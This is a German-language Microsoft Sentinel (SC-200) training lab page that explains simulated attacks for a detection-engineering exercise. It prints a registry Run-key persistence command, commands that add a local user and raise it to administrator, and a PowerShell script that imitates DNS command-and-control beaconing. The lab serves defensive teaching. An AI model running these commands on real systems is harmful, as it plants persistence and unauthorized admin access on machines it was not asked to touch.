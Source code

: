 ```yaml
---
lab:
  title: Übung 5 – Verstehen der Erkennungsmodellierung
  module: Learning Path 7 - Create detections and perform investigations using Microsoft Sentinel
---
```


# Lernpfad 7 –Lab 1 – Übung 5 – Verstehen der Erkennungsmodellierung

![Übersicht über Lab.](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex5.png)
### Aufgabe 1: Verstehen der Angriffe

>**Wichtig: In dieser Übung werden keine Aktionen ausgeführt.**  Diese Anweisungen sind nur eine Erklärung der Angriffe, die Sie in der nächsten Übung durchführen werden. Bitte lesen Sie diese Seite aufmerksam durch.

Angriffsmuster basieren auf einem Open-Source-Projekt: https://github.com/redcanaryco/atomic-red-team


#### Angriff 1 – Persistenz mit dem Registrierungsschlüssel hinzufügen

Angreifer fügen ein Programm im Registrierungsschlüssel ausführen hinzu. Dadurch wird Persistenz erreicht, indem das Programm bei jeder Anmeldung des Benutzers ausgeführt wird.

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### Angriff 2 – Benutzerberechtigungen hinzufügen und erhöhen

Der Angreifer fügt neue Benutzer hinzu und erhebt den neuen Benutzer in die Gruppe der Administratoren. Dadurch kann sich der Angreifer mit einem anderen privilegierten Konto anmelden.

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### Angriff 3 – DNS/C2 

Angreifer sendet eine große Anzahl von DNS-Abfragen an einen Befehls- und Steuerelementserver (C2). Die Absicht ist, eine schwellwertbasierte Erkennung der Anzahl von DNS-Anfragen entweder von einem einzelnen Quellsystem oder zu einer einzelnen Zieldomäne auszulösen.

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### Aufgabe 2: Verstehen der Erkennungsmodellierung

Der in dieser Übung verwendete Angriffserkennungs-Konfigurationszyklus repräsentiert alle Datenquellen, auch wenn Sie sich nur auf zwei bestimmte Datenquellen konzentrieren.

Um eine Erkennung zu erstellen, beginnen Sie mit der Erstellung einer KQL-Anweisung. Da Sie einen Host angreifen, verfügen Sie über repräsentative Daten, um mit der Erstellung der KQL-Anweisung zu beginnen.


Nachdem Sie die KQL-Anweisung erstellt haben, erstellen Sie die Analyseregel.

Sobald die Regel ausgelöst wird und Warnungen und Incidents generiert, prüfen Sie, ob Sie Felder zur Verfügung stellen, die den Security Operations Analysts bei ihren Untersuchungen helfen.

Nehmen Sie anschließend weitere Änderungen an der Analyseregel vor.

>**Hinweis:** Einige Warnungen werden nur zu Labzwecken in einem kürzeren Zeitintervall ausgelöst.

## Fahren Sie mit Übung 6 fort
